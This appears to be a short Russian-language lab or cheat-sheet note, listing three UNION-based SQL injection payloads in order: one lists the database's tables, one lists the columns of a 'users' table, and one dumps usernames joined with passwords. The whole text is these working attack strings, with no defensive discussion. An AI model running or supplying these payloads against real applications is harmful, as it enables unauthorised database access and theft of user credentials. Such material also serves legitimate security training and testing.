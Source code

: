
1. Узнаем таблицы в БД

`' UNION SELECT NULL, table_name FROM information_schema.tables -- -`

2. Узнаем список колонок в таблице

`' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users' -- -`

3. Выводим данные из таблицы users
`' UNION SELECT NULL, username || '~'  || password FROM users -- -`
